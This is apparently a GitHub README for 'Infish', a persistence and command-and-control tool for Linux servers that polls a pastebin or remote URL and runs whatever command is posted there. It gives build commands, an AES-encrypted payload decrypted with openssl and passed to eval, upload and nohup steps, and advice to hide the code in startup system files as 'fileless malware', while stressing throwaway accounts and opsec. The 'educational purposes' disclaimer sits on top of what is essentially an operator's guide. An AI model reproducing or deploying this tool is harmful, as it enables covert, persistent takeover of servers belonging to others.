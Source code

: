 # Infish

Infish stands for infinite shell. It's a way to maintain persistent shell access (command and control) on a linux server even without ftp, ssh, or cpanel access. It works on all linux servers, even on shared hosting. It's a demonstration of a fileless maleware.

Note that this project is for **educational purposes** only. I bear no responsibility for how you use it. For this reason, no specific tutorial will be given for how exactly when or where to use this tool.

The aim of this shell is the give the penetration tester maximum and complete control over the system such that **even reboot** can not save the day. Infact if one has root access, one can set the script to run on boot, that way, the target is **screwed**.

# How it works
Here, you will have a shell that keeps checking on a paste on a predefined url or pastebin (use a throw away account and make the paste unlisted), and running whatever command it finds there. That way, you don't need access to the target machine. You've created a poor man's reverse shell, while remaining anonymous in the process.

Anytime you need to run a command, simply edit the paste to the command you want.

# Usage

First clone the git repo

```bash
$ git clone https://github.com/phrenotype/infish.git
```

Then move into the directory

```bash
$ cd infish
```

As usual, to see usage,

```bash
$ ./infish -h
```
or
```bash
$ ./infish --help
```

There are two ways to build the final product.

- Using a raw pastebin url (or a url from a website you control. Observe opsec though.)
- Using your pastebin dev api key, username, and password

However, you first need to clone this repository or copy the infis-builder file to your local machine. Make it executable by running  

```bash
$ chmod +x infish
```

## Using a raw url

This is when you already have a webpage (observe opsec) or have already created a paste by hand. Get the **raw paste url** or the url of the page you choose and run the following command

```bash
$ ./infish --url 'https://example.com/cmd' --sleep 900 --user-agent 'Mozilla 5.0'
```
**or**

```bash
$ ./infish --key 'ABCDEFGHIJKLMNOPQRSTUVWXYZ1234567890' --sleep 900 --user-agent 'Mozilla 5.0'
```

This will generate a file called **.infish** with contents that look like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```

**You can specify the output filename or path using the `-o` or `--output` option**.

## Using your pastebin details

This is the recommended method, as everything is automated. For this, obtain the following

- Your pastebin dev api key
- Your pastebin username (To our throwaway account)
- Your pastebin password

Then run the following

```bash
$ ./infish key xxxxxxxxxxxxxxxxxxxxxxx
Pastebin username:
john
Pastebin password:
doe
New paste name:
shell

Successfully built infinite shell

$
```

A file called '.infish' is created. 

Again, the file will contain something like  

```bash
#!/usr/bin/env bash
decrypted=$(printf "%s" "2zvhB+0qO2zqAoEinkUcDPSr6M9XnvlFyQ+9dusb6R9BthEkH1k7eHwJpl+qJSda
Q7S2w1ijyWn6rJeDlyhsC9pjwFgopvKe5A0KWD7PGoycRjQdPwGqFkAtS/AQrRDz
zBJuD6WOtr/Is5k1Fkk8ytnFazILqQlJalJRWv80lfW82WKJLfIKdtLw0ukbkyZ7
NYYIjy7ixdH6GmHpQAtglwqU/IyakMgFKI3K4y4lyqbgYdPjvKg/z6W3OCTtfmP8
AiDmuy7iuvBsmXlg9+pvgUeutDi1e2H9CKTVKviFFB57EeEdBSaOx2ha/fuXjCmU
U6WXKe8X3MS3ZpUBgc13mxgSCkMmSt0djyADDaS78EgccggdZyHJaMVIbb4cem1S
Ab/6gTfJiRnlS8RPT7MrBGz1xXs6pxYFqrOJnDURY4i34iUEtqQwuBDndkztLRfK
XtdEbTf27uXj900xOcLmBfGcJDLCnEqzdI1oWCVZq6NNE+NxrLEOqVB668/HMeBG
Ubqv/Klau2aBPr75Q4r13g1GAkkTE32eveecXe8vEFYlwz6wok2R43idQIOBJ2/c
/4Mq1LrLoBylbsZcIPOTThHIMHpr91Rk32mpa8rFSR+YVMhGGPSZr6Jq7n9CmhtW
8j3MWGdTIfH0iWVgmUJ7TcKJwWr4LA8h9oSNJyavqDTlgCzKdv9uLUWwyG6LmFkX
J6uGY9kX+lYnsrwLWHwz+lwiN3qTCc1o7Uw68sEeZbg=" | openssl enc -aes-256-cbc -K "950749b504f82fdd3899e5de21681724b596c2587c2457bf683f686e65a9f45c" -iv "853e8f9b15046491fe4a3067fa60bc8b" -d -a);
eval "$decrypted";
```
**You can specify the output filename or path using the `-o` or `--output` option**.


## Deployment

There are two ways. Deploying it as a file on it's own, or as a **fileless** malware. I recommend the later.

### As A StandAlone File
Upload the **.infish** file to the target server and then, make it executable by running   

```bash
$ chmod +x .infish
```

Then to begin c&c, run  

```bash
$ nohup ./.infish & disown
```
If you have root access, you can set the last command above to run on boot. I will let you figure this part out.

Now, you can edit your paste to any shell command and the server will run it.

### As A Filess Malware

This is more devastating and very difficult to uncover. It involves adding the generated malware code to a legitimate system file that runs on startup. Again, figure that part out.

# Finally
That's it, you own the server. At least for now...
